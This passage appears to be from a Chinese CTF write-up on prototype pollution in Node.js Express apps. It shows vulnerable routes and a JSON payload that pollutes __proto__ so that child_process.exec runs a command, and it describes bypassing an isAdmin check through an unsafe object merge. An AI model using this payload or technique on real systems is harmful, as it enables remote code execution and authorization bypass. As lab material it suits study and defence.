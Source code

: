 ### 2
```js
router.post('/', require('body-parser').json(),function(req, res, next) {

  res.type('html');

  res.render('api', { query: Function(query)(query)});

});
```
>因为所有变量的最顶层是`object`，所以若当前上下文不存在`query`，会自动向上查找`object`的`query`属性，故可以进行原型链污染

```json
{"username":"admin","password":"admin","__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('id')"}}
```

### 3
```js
router.post('/', require('body-parser').json(),function(req, res, next) {

  res.type('html');

  var flag='flag_here';

  var user = new function(){

    this.userinfo = new function(){

    this.isVIP = false;

    this.isAdmin = false;

    this.isAuthor = false;    

    };

  }

  utils.copy(user.userinfo,req.body);

  if(user.userinfo.isAdmin){

   res.end(flag);

  }else{

   return res.json({ret_code: 2, ret_msg: '登录失败'});  

  }
```
